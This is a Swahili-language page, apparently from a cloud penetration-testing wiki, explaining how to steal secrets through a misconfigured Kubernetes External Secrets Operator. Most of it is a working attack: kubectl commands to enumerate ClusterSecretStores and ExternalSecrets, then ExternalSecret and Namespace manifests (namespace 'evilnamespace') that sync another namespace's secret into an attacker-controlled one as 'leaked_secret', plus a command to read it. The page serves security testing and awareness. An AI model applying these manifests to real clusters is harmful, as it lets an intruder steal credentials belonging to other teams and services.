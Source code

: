 # External Secret Operator

**Mwandishi wa awali wa ukurasa huu ni** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ukurasa huu unatoa vidokezo juu ya jinsi unavyoweza kufanikisha kuiba siri kutoka kwa ESO isiyo na usanidi mzuri au programu inayotumia ESO kusawazisha siri zake.

## Disclaimer

Mbinu iliyoonyeshwa hapa chini inaweza kufanya kazi tu wakati hali fulani zinakutana. Kwa mfano, inategemea mahitaji yanayohitajika kuruhusu siri kusawazishwa kwenye namespace ambayo unamiliki / umevamia. Unahitaji kujifunza mwenyewe.

## Prerequisites

1. Kuwepo katika klasta ya kubernetes / openshift yenye haki za admin kwenye namespace
2. Ufikiaji wa kusoma angalau ExternalSecret katika ngazi ya klasta
3. Jifunze kama kuna lebo / maelezo au uanachama wa kikundi wowote unaohitajika ambao unaruhusu ESO kusawazisha siri yako. Ikiwa una bahati, unaweza kuiba kwa urahisi siri yoyote iliyofafanuliwa.

### Gathering information about existing ClusterSecretStore

Tukidhani kwamba una watumiaji ambao wana haki za kutosha kusoma rasilimali hii; anza kwa kwanza kuorodhesha _**ClusterSecretStores**_ zilizopo.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Tuchukulie kuwa umepata ClusterSecretStore inayoitwa _**mystore**_. Endelea kwa kuhesabu externalsecret zake zinazohusiana.
```sh
kubectl get externalsecret -A | grep mystore
```
_Rasilimali hii ina upeo wa namespace hivyo isipokuwa unajua tayari ni namespace ipi ya kutafuta, ongeza chaguo la -A kutafuta katika namespaces zote._

Unapaswa kupata orodha ya externalsecret zilizofafanuliwa. Tuone umefind externalsecret object inayoitwa _**mysecret**_ iliyofafanuliwa na kutumiwa na namespace _**mynamespace**_. Kusanya taarifa zaidi kuhusu ni aina gani ya siri inayoishikilia.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Kuunganisha vipande

Kutoka hapa unaweza kupata jina la siri moja au nyingi (kama ilivyoainishwa katika rasilimali ya Siri). Utapata matokeo kama yafuatayo:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hadi sasa tumepata:

- Jina la ClusterSecretStore
- Jina la ExternalSecret
- Jina la siri

Sasa kwamba tuna kila kitu tunachohitaji, unaweza kuunda ExternalSecret (na hatimaye kuboresha/kuunda Namespace mpya ili kuzingatia mahitaji yanayohitajika ili kupata siri yako mpya iunganishwe):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Baada ya dakika chache, ikiwa masharti ya usawazishaji yalitimia, unapaswa kuwa na uwezo wa kuona siri iliyovuja ndani ya namespace yako.
```sh
kubectl get secret leaked_secret -o yaml
```
## Marejeleo

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
